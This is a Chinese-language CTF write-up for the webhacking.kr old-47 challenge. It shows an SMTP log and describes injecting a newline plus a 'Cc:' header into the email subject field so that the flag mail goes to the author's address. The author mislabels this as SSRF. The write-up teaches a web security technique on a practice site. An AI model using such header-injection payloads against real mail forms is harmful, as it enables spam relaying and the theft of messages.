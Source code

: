 # old-47_150

* 這一題一進去可以發現一個 email subject
* 直接送出，會顯示一些資訊
    ```=
    2020-07-03 21:42:01 CLIENT -> SERVER: EHLO webhacking.kr
    2020-07-03 21:42:01 CLIENT -> SERVER: STARTTLS
    2020-07-03 21:42:01 CLIENT -> SERVER: EHLO webhacking.kr
    2020-07-03 21:42:01 CLIENT -> SERVER: AUTH LOGIN
    2020-07-03 21:42:02 CLIENT -> SERVER: <credentials hidden>
    2020-07-03 21:42:02 CLIENT -> SERVER: <credentials hidden>
    2020-07-03 21:42:02 CLIENT -> SERVER: MAIL FROM:<no-reply@webhacking.kr>
    2020-07-03 21:42:02 CLIENT -> SERVER: RCPT TO:<no-existed@webhacking.kr>
    2020-07-03 21:42:02 CLIENT -> SERVER: DATA
    2020-07-03 21:42:03 CLIENT -> SERVER: Date: Sat, 4 Jul 2020 06:42:01 +0900
    2020-07-03 21:42:03 CLIENT -> SERVER: To: no-existed@webhacking.kr
    2020-07-03 21:42:03 CLIENT -> SERVER: From: no-reply@webhacking.kr
    2020-07-03 21:42:03 CLIENT -> SERVER: Subject: Flag of webhacking.kr old-47 chall
    2020-07-03 21:42:03 CLIENT -> SERVER: Message-ID: <yRsgo5VtPz9etw2ExTr92VymMUVyG6WBIKXxsIU25xQ@webhacking.kr>
    2020-07-03 21:42:03 CLIENT -> SERVER: MIME-Version: 1.0
    2020-07-03 21:42:03 CLIENT -> SERVER: Content-Type: text/plain; charset=iso-8859-1
    2020-07-03 21:42:03 CLIENT -> SERVER:
    2020-07-03 21:42:03 CLIENT -> SERVER: FLAG{?????}
    2020-07-03 21:42:03 CLIENT -> SERVER:
    2020-07-03 21:42:03 CLIENT -> SERVER: .
    2020-07-03 21:42:04 CLIENT -> SERVER: QUIT
    ```
* 這時，我想到了 ssrf
* 因為這個輸入匡中控制的是 subject 的部分，所以想辦法換行並且加上 To: your_email 說不定可以收到 flag
* 可以開 burp 或是單純的 textarea 標籤也可以做到相同的效果，不過要記得把 maxlength 變大一點
* 之後我嘗試輸入 
    ```
    Flag of webhacking.kr old-47 chall
    To: 39701965a@gmail.com
    ```
    不過我沒有收到 mail
* 所以我想到了[副本](https://www.thenewslens.com/article/6984)，所以我稍微改一下 payload
    ```
    lag of webhacking.kr old-47 chall
    Cc: 39701965a@gmail.com
    ```
    然後就收到 flag 拉
